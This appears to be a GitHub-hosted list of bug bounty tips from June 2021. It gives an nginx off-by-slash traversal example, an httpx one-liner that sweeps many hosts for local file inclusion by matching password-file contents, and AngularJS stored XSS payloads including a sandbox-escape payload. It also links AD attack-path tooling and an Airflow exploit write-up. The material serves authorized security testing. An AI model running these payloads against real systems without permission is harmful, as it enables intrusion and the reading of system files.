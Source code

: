 # Bug Bounty Tips - June 2021

## Stumble upon 404 nginx servers? make sure to test for off-by-slash vulnerabilities

```text
http://example[.]com/index.php -> File not found
http://example[.].com/assets../index.php -> source code
```
**Try with img, js, assets, vendors, media as the folder name**
***Source: https://twitter.com/naglinagli/status/1401259603845918722?s=20***
***Reference: https://portswigger.net/bappstore/a5fdd2cdffa6410eb530de5a4c294d3a***

## Identify AD attack paths breaking the tier model using BloodHound
Github: https://github.com/improsec/ImproHound
Blogpost: https://improsec.com/tech-blog/improhound-identify-ad-tiering-violations
Demo video: https://youtu.be/zQ01tvTr6H0

## Exploiting outdated Apache Airflow instances
- https://ian.sh/airflow

## Quick test all the hosts for LFI via [@pdiscoveryio](https://github.com/projectdiscovery) - [httpx](https://github.com/projectdiscovery/httpx)

- https://github.com/hussein98d/LFI-files

```sh
httpx -l allhosts -paths /root/list.txt -threads 100 -random-agent -x GET,POST,PUT -title -tech-detect -status-code  -follow-redirects -title -mc 200 -match-regex "root:[x*]:0:0:"
```

![img](https://pbs.twimg.com/media/E3ykkLOX0AUI1kA?format=jpg&name=large)

## AngularJS stored XSS
```text
1. Usual payload in product name as '"><img src onerror=alert(1)>x{{7*7}}
2. Output as '">x49
```
### Final payload
```js
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
```
***Source: https://twitter.com/4z1zu/status/1376139627220725760?s=20***


